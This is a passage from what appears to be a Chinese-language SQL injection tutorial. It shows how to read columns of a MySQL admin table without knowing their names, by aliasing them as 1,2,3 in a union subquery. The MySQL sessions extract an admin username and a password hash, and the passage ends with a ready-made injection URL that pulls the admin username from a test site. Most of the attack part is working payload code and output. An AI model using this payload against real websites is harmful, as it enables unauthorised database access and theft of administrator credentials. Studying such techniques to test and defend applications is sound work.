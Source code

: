 
tdb_admin表的`id,username,password`列给替换成了`1,2,3`列,这样就不需要知道这表原来的列名叫什么.



接着下一步操作,查出数据以下为sql



- id 替换为 1
- username 替换为 2
- password 替换为 3



```plain
# 取 tdb_admin数据的id字段的数据
mysql> select `1` from (select 1,2,3 union select * from tdb_admin) a limit 1,1;
+---+
| 1 |
+---+
| 1 |
+---+
1 row in set
```



```plain
# 取 tdb_admin数据的username字段的数据
mysql> select `2` from (select 1,2,3 union select * from tdb_admin) a limit 1,1;
+-------+
| 2     |
+-------+
| admin |
+-------+
1 row in set
```



```plain
# 取 tdb_admin数据的password字段的数据
mysql> select `3` from (select 1,2,3 union select * from tdb_admin) a limit 1,1;
+----------------------------------+
| 3                                |
+----------------------------------+
| 7fef6171469e80d32c0559f88b377245 |
+----------------------------------+
1 row in set
```



注意: 取数据时limit下表从1,1开始取才是tdb_admin表的第一条数据

# 0x03 实际结合



web语句: http://www.test.com/sql.php?id=-1 union select 1,2,3,4,5,6,(select `2` from (select 1,2,3 union select * from tdb_admin)a limit 1,1);
